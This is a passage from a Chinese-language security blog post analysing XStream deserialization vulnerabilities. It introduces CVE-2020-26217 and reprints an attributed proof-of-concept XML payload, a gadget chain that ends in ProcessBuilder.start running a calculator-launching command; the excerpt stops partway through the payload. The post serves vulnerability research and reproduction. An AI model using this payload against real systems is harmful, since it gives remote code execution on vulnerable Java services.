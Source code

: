 # XStream反序列化详解（二） | m0d9's blog
[2021-05-10](https://m0d9.me/2021/05/10/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E8%AF%A6%E8%A7%A3%EF%BC%88%E4%BA%8C%EF%BC%89/)

前文已经讲过XStream的反序列化特性及漏洞产生的原因，以及<=1.4.6版本的几个gadget，在此背景上，本节准备复现披露的几个RCE CVE，正向分析下。

XStream团队很有意思，安全公告会把POC也公开，具体可以看[https://x-stream.github.io/security.html。](https://x-stream.github.io/security.html%E3%80%82)

[](#CVE-2020-26217 "CVE-2020-26217")CVE-2020-26217
--------------------------------------------------

这个其实就是Wh1t3p1g师傅中提到的第4个ImageIO gadget，在marshalsec gadgets ImageIO中也有，下面正向跟踪下。

### [](#Wh1t3p1g师傅的POC "Wh1t3p1g师傅的POC")Wh1t3p1g师傅的POC

```plain
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command class="java.util.Arrays$ArrayList">
                        <a class="string-array">
                          <string>open</string>
                          <string>-a</string>
                          <string>calculator.app</string>
                        </a>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
```